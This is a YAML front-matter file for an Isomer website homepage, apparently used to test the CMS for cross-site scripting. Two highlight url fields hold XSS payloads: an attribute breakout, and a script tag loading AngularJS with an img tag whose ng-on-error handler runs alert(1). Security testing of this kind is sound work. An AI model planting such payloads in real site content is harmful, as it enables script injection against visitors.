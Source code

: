 ```yaml
---
layout: homepage
title: Isomer Site
description: Brief site description here
image: /images/isomer-logo.svg
permalink: /
notification: ffffff
sections:
  - hero:
      title: Hero title
      subtitle: Hero subtitle
      background: /images/hero-banner.png
      button: Contact Us
      url: /contact-us/
      key_highlights:
        - abcdef: "abcd\n\r\n\rtesttest"
          abcd: abcd
          title: Highlight A
          description: <b>testtest2</b>
          url: https://google.com/ttt"'>testframesetfffffewfewf213
        - title: Highlight B
          description: Important highlight B is equally important
          url: https://test.com/"'>payload123<script
            src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.3/angular.js"></script>
            <img data-ng-app=""
            data-ng-on-error="$event.target.ownerDocument.defaultView.alert(1)"
            src="x">uu
        - title: Page A
          description: Page A is important too
          url: /privacy/
  - infobar:
      title: Infobar title
      subtitle: Subtitle
      description: About a sentence worth of description here
      button: Button text
      url: /faq/
  - resources:
      title: Resourcesffff
      subtitle: fffff
      id: resources
      button: ffff
---
```

